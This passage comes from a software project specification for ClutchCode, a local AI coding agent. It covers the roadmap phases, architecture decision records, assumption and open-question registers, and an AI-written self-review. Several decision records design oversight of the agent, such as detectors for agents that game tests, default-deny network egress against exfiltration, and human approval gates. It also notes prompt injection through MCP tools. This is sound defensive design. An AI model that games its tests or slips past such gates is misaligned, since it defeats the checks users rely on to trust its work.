| **8** | **Eval scoreboard** (SWE-bench Verified subset + Terminal-Bench-style + realistic suite) + published "local-model usability" methodology | 1,2,4 | scoreboard reproducibility | benchmark flakiness | VTCR delta (§16.4) measured + reported per tier | medium |
| **9** | Multi-agent orchestration (contracts, worktree isolation, concurrency) — only if §7 rule justifies | 1,5 | subagent contract + partial-failure tests | complexity/cost | parallel independent subtask demo beats single-agent on a real case | medium |
| **10** | Editor breadth (Zed/Neovim clients via Agent API) + single-binary/Homebrew install | 4 | client conformance | protocol churn | a 2nd editor client works unchanged against the API | medium |
| **11** | Security hardening + release engineering (audit, threat-model review, signed releases, Windows/WSL2 hardening) | all | pen-test checklist; supply-chain | the security-incident risk (§23.5) | external review of §12; signed release; §12.7 doc final | ongoing |

**First dogfooding milestone: end of Phase 1.** As soon as the minimal agent can fix a real bug on a sample repo with verification + worktree + diff-review, **we use ClutchCode to build ClutchCode** (the monorepo is its own best test repo). Everything after Phase 1 is developed partly by the tool itself, which is both a productivity win and continuous dogfood-driven eval. **[C:High]**

---

## 26. Architecture Decision Records

Format: ID · Title · Status · Context · Decision · Alternatives · Why rejected · Consequences (incl. bad) · Reversal cost · Migration path. **One-way doors marked ⛔.**

**ADR-001 ⛔ · Core runtime language = TypeScript/Node.** *Status:* Accepted. *Context:* need one runtime shared by CLI, TUI, and a required VS Code extension; §19. *Decision:* TypeScript on Node (Bun-compatible). *Alternatives:* Rust, Go, Python, Bun-only. *Why rejected:* Rust/Go force a second language for the extension + RPC to our own core; Python has weak CLI distribution + editor integration; perf isn't the bottleneck. *Consequences:* single shared runtime, huge contributor pool; **bad:** weaker single-binary story (mitigated Bun/SEA) and no native syscalls (mitigated by native/ helper). *Reversal:* **one-way-ish** — moving the core to Rust later means a rewrite, though the Agent API boundary lets clients survive. *Migration:* reimplement `packages/runtime` behind the same Agent API.

**ADR-002 · Edit format default = SEARCH/REPLACE with exact-tolerant fallback, NO fuzzy apply.** *Status:* Accepted. *Context:* §4.3–4.4; Aider's disabled fuzzy matcher. *Decision:* SEARCH/REPLACE default; cascade exact→whitespace→blank-line→dotdotdots→fail-loud; downgrade to whole-file on repeated failure. *Alternatives:* unified diff default; JSON edits; fuzzy apply. *Why rejected:* diff/JSON weaker on local models; fuzzy silently misapplies (learned lesson). *Consequences:* robust on weak models; **bad:** whole-file fallback costs tokens. *Reversal:* moderate (edit-format is behind the adaptation layer). *Migration:* add formats as new selectable strategies.

**ADR-003 ⛔ · Config schema/contract = TOML + JSON-Schema.** *Status:* Accepted. *Context:* §19.2. *Decision:* `agent.toml` validated by JSON-Schema; workflows typed-DSL + declarative schema. *Alternatives:* YAML, code-only. *Why rejected:* YAML control-flow temptation (§8); code-only hurts non-dev editing. *Consequences:* validation + editor hints; **bad:** two workflow authoring modes. *Reversal:* **hard once users have config files** — schema changes need migrations (built in, §8.2). *Migration:* `apiVersion` + migration functions.

**ADR-004 ⛔ · Edit isolation = git worktree per run.** *Status:* Accepted. *Context:* §13. *Decision:* every run edits in its own worktree/branch off HEAD. *Alternatives:* edit-in-place with backups (Aider-style dirty commits); container fs (OpenHands). *Why rejected:* in-place risks the user's tree; container is heavy (§12.5). *Consequences:* main tree safe; **bad:** worktree setup cost + non-git fallback needed (§13.4). *Reversal:* moderate. *Migration:* the non-git snapshot path already generalizes.

**ADR-005 · Sandbox = tiered OS primitives, Docker optional (not default).** *Status:* Accepted. *Context:* §12.5–12.6, laptop reality. *Decision:* Tier0 policy + Tier1 Seatbelt/bwrap+Landlock/WSL2; Docker = opt-in Tier2. *Alternatives:* Docker-default (OpenHands); no sandbox (Aider). *Why rejected:* Docker default gets disabled on laptops; no-sandbox is unsafe. *Consequences:* always-on lightweight safety; **bad:** weaker than Docker (stated §12.7); Windows weak. *Reversal:* cheap (add tiers). *Migration:* Docker/microVM as higher tiers.

**ADR-006 · No vector DB; ripgrep+tree-sitter, PageRank later.** *Status:* Accepted. *Context:* §9. *Decision:* simplest retrieval that works; add tiers on measured need. *Alternatives:* embeddings from day one. *Why rejected:* dependency weight, staleness, VRAM contention, unproven gain. *Consequences:* zero index cost; **bad:** weaker fuzzy/concept search. *Reversal:* cheap (additive). *Migration:* add embeddings behind the retrieval interface if §16.2 metric demands.

**ADR-007 · Storage = SQLite + JSONL + AGENTS.md.** *Status:* Accepted. *Context:* §10,§15,§19.2. *Decision:* embedded SQLite + append-only JSONL + in-repo AGENTS.md. *Alternatives:* Postgres, flat-files-only. *Why rejected:* Postgres needs a server (contra §17); flat-only is unqueryable. *Consequences:* offline, queryable, no server; **bad:** SQLite concurrency limits (fine single-user). *Reversal:* cheap. *Migration:* SQLite→libSQL/Postgres if ever multi-user (a non-goal).

**ADR-008 · Provider abstraction = OpenAI-compatible-first + native Anthropic/Ollama.** *Status:* Accepted. *Context:* §4.7. *Decision:* one OpenAI-compat adapter covers the long tail incl. local servers. *Alternatives:* per-provider SDKs only. *Why rejected:* N SDKs = N maintenance. *Consequences:* broad coverage fast; **bad:** provider-specific features (caching, thinking) need native paths. *Reversal:* cheap (adapters are pluggable). *Migration:* add native adapters as needed.

**ADR-009 · Completion contract = deterministic gate + no-cheat + human approval.** *Status:* Accepted. *Context:* §14. *Decision:* success requires green checks, zero cheat flags, and (interactive) human approval. *Alternatives:* model-self-report; tests-only. *Why rejected:* self-report is the problem; tests-only is gameable (§14.6). *Consequences:* trustworthy "done"; **bad:** more friction; `--yes` still enforces gate+no-cheat. *Reversal:* moderate (it's core to the value prop). *Migration:* tune per-stage strictness.

**ADR-010 · Single agent by default; multi-agent opt-in (Phase 9).** *Status:* Accepted. *Context:* §7. *Decision:* one agent + sub-steps; delegate only under the §7.1 rule. *Alternatives:* multi-agent-by-default (market fashion). *Why rejected:* handoff loss, cost×N, latency, error compounding. *Consequences:* cheaper, debuggable; **bad:** genuinely-parallel tasks wait until Phase 9. *Reversal:* cheap (additive). *Migration:* the AgentContract (§7.2) is specified now.

**ADR-011 · Interface = CLI/TUI-first core + VS Code as first-class Agent-API client (stdio JSON-RPC, ACP-shaped).** *Status:* Accepted. *Context:* §18; user requires both. *Decision:* one Agent API, two+ clients. *Alternatives:* web-first; extension with its own agent logic. *Why rejected:* web tempts a server (contra §17); duplicated logic diverges. *Consequences:* editor breadth is cheap; **bad:** stdio-RPC protocol to design/version. *Reversal:* moderate. *Migration:* protocol versioning; ACP alignment.

**ADR-012 · License = Apache-2.0; contributions via DCO.** *Status:* Accepted. *Context:* LICENSE analysis. *Decision:* Apache-2.0 + DCO. *Alternatives:* MIT, AGPL, BSL; CLA. *Why rejected:* MIT lacks patent grant; AGPL/BSL hurt adoption for a local tool with no service to protect; CLA implies capture. *Consequences:* patent grant + adoption + no-capture; **bad:** relicensing later needs all contributors. *Reversal:* **⛔ effectively one-way** (intended permanence). *Migration:* none desired.

**ADR-013 · No telemetry, no servers.** *Status:* Accepted. *Context:* §15,§17,§19,§21. *Decision:* all data local; OTel optional exporter only; offline path is a release gate. *Alternatives:* anonymous telemetry. *Why rejected:* contradicts the trust proposition. *Consequences:* privacy by construction; **bad:** no usage analytics to guide dev (we rely on local eval + community reports). *Reversal:* would break trust; treat as ⛔ culturally. *Migration:* n/a.

**ADR-014 · Reference projects are STUDY-ONLY; high-risk subsystems CLEAN-ROOM.** *Status:* Accepted. *Context:* LICENSE §3,§7. *Decision:* patterns in, expression out; spec-author ≠ code-author for edit format, patch, sandbox, repo-map, prompts. *Alternatives:* copy permissively-licensed code with attribution. *Why rejected:* provenance/audit burden; prompt copyright. *Consequences:* clean codebase; **bad:** slower (reimplement). *Reversal:* n/a (compliance). *Migration:* n/a.

**ADR-015 · Capability probe persisted per model.** *Status:* Accepted. *Context:* §4.9. *Decision:* probe once, store profile, drive adaptation. *Alternatives:* static per-model tables; probe every run. *Why rejected:* static rots; per-run wastes tokens. *Consequences:* self-tuning to new models; **bad:** probe must be cheap+reliable (schedule risk). *Reversal:* cheap. *Migration:* fall back to static defaults if probe fails.

**ADR-016 · Extracted prompts are STUDY-ONLY; our prompts written from scratch.** *Status:* Accepted. *Context:* LICENSE §7. *Decision:* original prompts; reviewer confirms independence. *Alternatives:* adapt others' prompts. *Why rejected:* prompts are copyrightable. *Consequences:* legal safety; **bad:** re-derive prompt quality via eval. *Reversal:* n/a. *Migration:* n/a.

**ADR-017 · MCP is the third-party tool boundary; small native core.** *Status:* Accepted. *Context:* §11.2. *Decision:* native core tools + MCP for extensions, treated as untrusted. *Alternatives:* everything-as-plugin; no extension boundary. *Why rejected:* plugins-everywhere bloats core; no-extensions limits reach. *Consequences:* fast core + open extension; **bad:** MCP = injection surface (controls in §12). *Reversal:* cheap. *Migration:* add plugin ABI if needed.

**ADR-018 · Cheating detection is a required verification stage.** *Status:* Accepted. *Context:* §14.6. *Decision:* diff-based cheat detectors block success. *Alternatives:* trust green tests. *Why rejected:* agents game tests; unaddressed elsewhere. *Consequences:* trustworthy completion + a differentiator; **bad:** false positives annoy (tuned via §16.2 corpus). *Reversal:* moderate (core value). *Migration:* expand detector set.

**ADR-019 · Network egress default-deny with allowlist.** *Status:* Accepted. *Context:* §12. *Decision:* deny egress by default; allowlist for registries/approved hosts; ASK to add. *Alternatives:* allow-all. *Why rejected:* exfiltration + supply-chain. *Consequences:* strong anti-exfil; **bad:** breaks installs/tests needing network until allowlisted (documented UX). *Reversal:* cheap (config). *Migration:* per-repo allowlists.

**ADR-020 · Runtime is model-stubbable; replay-tests land in Phase 1.** *Status:* Accepted. *Context:* §2,§16.3. *Decision:* FakeProvider + recorded-transcript replay from the start. *Alternatives:* test against live models. *Why rejected:* nondeterministic, costs tokens, slow. *Consequences:* refactor-safe runtime, offline CI; **bad:** must maintain transcript fixtures. *Reversal:* n/a (foundational). *Migration:* n/a.

---

## 27. ASSUMPTIONS register

| # | Assumption | Owner | Decision needed |
|---|---|---|---|
| A1 | Product name "ClutchCode" (matches repo) is acceptable and trademark-clearable. | maintainers | confirm name + clear TM before release (LICENSE §6) |
| A2 | Target = individual devs on Profiles A–D; no enterprise features in scope. | product | confirmed by prompt §2; hold the line vs scope creep |
| A3 | "A few weeks by a very small team" for Phase 1 means ~2–4 engineers, several weeks; the estimate is tight. | eng lead | confirm team size; adjust Phase 1 scope if smaller |
| A4 | Users can install a local model server (Ollama/llama.cpp) themselves; `agent doctor` assists but doesn't bundle a server. | product | decide whether to bundle/manage a server (bigger install) |
| A5 | Bun-compile / Node SEA is mature enough for a single binary by Phase 2. | eng | validate on the build matrix early |
| A6 | VS Code extension can spawn/attach the runtime over stdio without Marketplace policy issues. | eng | prototype the extension host boundary in Phase 3 |
| A7 | Provider ToS permit our (non-training) eval-transcript storage; local models have none. | maintainers | re-read each provider ToS at ship (LICENSE §5) |
| A8 | tree-sitter grammars cover the languages our users care about; missing grammars degrade to ripgrep. | eng | pick the initial language set from eval suite |
| A9 | The "adapt-to-weak-models" bet has a real, measurable VTCR delta (§16.4). | research | prove/disprove in Phase 8; it validates the whole project |
| A10 | Reference-project architecture claims are current as of the 2026-08-12 clones; they will rot. | research | re-verify before relying on any claim in build |
| A11 | Windows users can/will use WSL2 for the strong sandbox tier; native Windows sandbox stays weak. | eng | **Resolved (2026-08-21, see `HANDOFF.md`): doc-only.** WSL2 stays the recommended path; a native restricted-token/AppContainer backend is not built, matching §12.5's own `[C:Low]` rating for it and §29 point 3's self-review call for doc-only Windows sandboxing at this team size. `detectSandboxBackend()` already implements this (reports `"none"` on `win32` with a `reason` naming WSL2), surfaced by `agent doctor`. |

## 28. OPEN QUESTIONS register

| # | Question | Owner | Decision needed / by when |
|---|---|---|---|
| Q1 | Exact current retention/training clauses per provider for the honesty disclosure (§5.5). | maintainers | before first release |
| Q2 | Which SWE-bench Verified subset + how many realistic hand-built tasks constitute the eval suite (§16.3)? | research | before Phase 8 (design earlier) |
| Q3 | Cheat-detection false-positive tolerance + the labeled corpus to tune it (§14.6, §16.2). | eng+research | Phase 4 |
| Q4 | Default cost ceiling + step/wall-clock budgets that balance capability vs runaway (§6.3). | product | Phase 1 default, tune via eval |
| Q5 | Windows Phase 1 posture: WSL2-recommended doc-only, or ship a restricted-token sandbox? (§12.5, A11) | eng | **Resolved: doc-only — see A11.** |
| Q6 | Should `agent doctor` bundle/manage a local model server or only detect one? (A4) | product | Phase 2 |
| Q7 | Single-binary toolchain: Bun compile vs Node SEA vs pkg — which by Phase 2? (A5) | eng | Phase 2 |
| Q8 | Workflow authoring: is the two-mode split (TS DSL + declarative) worth it, or declarative-only? (§8.1) | eng | after Phase 6 dogfood |
| Q9 | ACP alignment: adopt the emerging Agent-Client Protocol verbatim for the editor boundary, or a compatible subset? (§18.5) | eng | Phase 3–4 |
| Q10 | Trademark clearance + final product name (A1). | maintainers | before release |

---
## 29. SELF-REVIEW (adversarial pass)

Answering the ten mandated questions honestly; fixes applied inline where they were needed.

1. **Every claim about a reference project traceable to a file I read?** *Mostly.* The deep claims (Aider edit cascade + disabled fuzzy matcher `editblock_coder.py:183`; Aider repomap PageRank `repomap.py:365-529`; Codex `apply-patch/` + `linux-sandbox/{landlock,bwrap}.rs`; Claude Code subagent frontmatter `code-reviewer.md` + hook examples; Claude Code = docs/plugins only, proprietary) are file-traceable (`research/00_METHOD.md §6`). **Gap:** the five Tier-1 breadth sub-agents (OpenHands, Cline, Codex-notes, Aider-notes, Claude-Code-notes) and all Tier-2 sub-agents **failed on a session usage limit before writing `research/repos/*.md`**. So OpenHands/Cline/Goose/Continue/Archon/etc. claims in the competitive matrix rest on my prior knowledge + partial sub-agent findings (Cline monorepo `apps/vscode/src`; OpenHands clone is the `@openhands/agent-canvas` ACP frontend, not the Python core) rather than fresh file reads. **These are flagged here and several matrix cells carry `UNVERIFIED:`.** This is disclosed in `00_METHOD.md §2`, not hidden.
2. **Marked everything I couldn't verify?** Yes — `UNVERIFIED:` tags on point-in-time provider capability/ToS numbers, several §23.1 matrix cells, default model recommendations, and the missing repo-note reads (above). The honesty log in `00_METHOD.md §2` is explicit.
3. **Does Phase 1 actually fit the effort, or am I lying to myself?** **Tight, flagged [C:Med] (§21.1).** Phase 1 is genuinely small (1 agent, 1 workflow, 2 providers, core tools, verify+worktree, TUI). The schedule risks are honestly named: per-OS sandbox Tier 1 and the capability probe. If the team is <2, Phase 1 must shed the probe (defer to Phase 2) and Windows sandbox (doc-only). I did **not** claim multi-agent, workflows-UI, or vector DB in Phase 1 — those would have been the lie.
4. **Chosen — not listed — every tech decision?** Yes. §19 picks TypeScript (not "Rust or TS"), SQLite, TOML+JSON-Schema, tiered-sandbox, no-vector-DB, OpenAI-compat-first, stdio-JSON-RPC. Each has a confidence tag and an escape hatch. ADRs 001–020 record them with reversal cost + one-way-door marks.
5. **Still works with a 14B local model on 12 GB VRAM at 8k context?** Yes — this is the canonical design target (Profile B, §3). §4.5 budgets against *effective* 8–12k with a hard no-repo-dump rule; §4.10 sizes 14B Q4_K_M (~10 GB) + KV to fit 12 GB and warns on 16k spill; §4.8 constrained-decoding (GBNF) makes tools reliable on weak models; §4.4 whole-file fallback caps at ~400 LOC for 8k. If any choice only worked above this bar it was called wrong.
6. **Still works API-only, no GPU (Profile C)?** Yes — the most common case (§3). Phase 1 ships an OpenAI-compatible adapter; nothing on the critical path needs a GPU; cost ceiling (§6.3) protects the API user from runaway bills.
7. **Claimed any security property I didn't design a control for?** Checked. §12.7 ("What this system does NOT protect against") explicitly disclaims: prompt-injection into *allowed* actions, malicious deps under normal perms in Tier 0/1, sandbox-escape bugs, `bypassPermissions`, and a compromised OS. I did **not** claim to be stronger than Docker — §12.5/§12.7 say our default tier is *lighter*, not stronger. Redaction/denylist/egress-deny each have a named control + test (canary).
8. **A single differentiator strong enough to justify existence?** Yes, and arguably two: (a) the **capability-adaptation layer that makes weak/local models usable** (§4) — the product's reason to exist, falsifiable via §16.4; (b) **verification with cheating-detection** (§14.6), which this research found in **no** reference project. If §16.4's VTCR delta turns out small, differentiator (a) collapses and the project should pivot to the local-first/privacy axis or not ship — stated plainly in §23.5.
9. **Anything merely fashionable a skeptic would catch?** Actively killed: multi-agent-by-default (§7, argued against), vector DB (§9, refused), web dashboard (§22), OpenTelemetry-by-default (§15.2, demoted to optional exporter), "faster than vendors" and "more secure than Docker" (§23.4, killed). The remaining opinionated bets (TS core, adapt-to-weak-models) are defended with reasons a disagreeing engineer can attack.
10. **Could a fresh agent build Phase 1 from this doc with no questions?** **Largely yes for the shape; some numbers need defaults.** Phase 1 has: the exact tool set + interfaces (§11.1), the edit cascade algorithm (§4.4), the RunState object (§6.2), the state machine (§6.2), the completion contract (§14.7), the repo structure (§20), the worktree protocol (§13.1), and the replay-test requirement (§16.3c). **Underspecified for a truly zero-question build:** concrete default budget numbers (Q4), the exact JSON-RPC Agent API message schema (named, not fully specified — a Phase 1 sub-task), and the precise SEARCH/REPLACE grammar bytes (the *contract* is specified; the wire grammar is a small design task). These are logged in OPEN QUESTIONS. A competent agent could build Phase 1 and would hit those three as bounded design tasks, not blockers.

**Unresolved after self-review (carried, not hidden):**
- The `research/repos/*.md` and `research/cross-cutting/*.md` supporting notes are **thin** because the breadth sub-agents hit the session usage limit (Q from #1/#2). The spec's *deep* claims are file-traceable; the *breadth* competitive claims lean on prior knowledge and are marked. A follow-up pass (fresh session, budget restored) should complete those notes and re-verify §23.1. This is the single largest known gap in the deliverable and it is disclosed here rather than papered over.
- The central empirical bet (#8/A9) is unproven until Phase 8. The spec is honest that the project's justification is contingent on that measurement.

---

*End of PROJECT_SPEC.md v1.0 (2026-08-12). This document is the authoritative Phase-0 deliverable. Companion: `LICENSE_AND_REUSE_ANALYSIS.md`; supporting notes under `research/`. No executable code ships with Phase 0.*
